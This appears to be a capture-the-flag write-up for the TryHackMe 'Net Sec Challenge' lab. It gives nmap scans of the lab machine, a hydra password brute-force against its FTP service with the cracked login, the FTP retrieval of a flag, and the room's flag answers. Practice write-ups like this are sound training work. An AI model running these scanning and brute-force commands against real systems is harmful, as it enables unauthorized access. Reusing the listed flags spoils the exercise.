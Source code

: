 # Net Sec Challenge

[Net Sec Challenge Room](https://tryhackme.com/room/netsecchallenge)

Practice the skills you have learned in the Network Security module.

## Active Machine Information

| Title | IP Address |
| :----: | :----: |
| NetSecMod Room 09 Challenge v1.11 | 10.10.91.0 |

### Task 1

```bash
export IP=10.10.91.0
```

### Task 2

```bash
sudo nmap -A -p- -T4 -vv -oN initial.nmap $IP
```

Result: [initial.nmap](initial.nmap)

> `8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)`

> `10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3`

> `|_http-server-header: lighttpd THM{web_server_25352}`

> `|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}`

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -t 20 -s 10021 -v $IP ftp | tee quinn.hydra
```

Result: 

- [eddie.hydra](eddie.hydra)
- [quinn.hydra](quinn.hydra)

> `[10021][ftp] host: 10.10.91.0   login: quinn   password: andrea`

Using: `quinn:andrea`

```bash
ftp 10.10.91.0 10021
ls
get ftp_flag.txt
```

Result: [ftp_flag.txt](ftp_flag.txt)

> `THM{321452667098}`

```bash
sudo nmap -sN $IP
```

> `THM{f7443f99}`
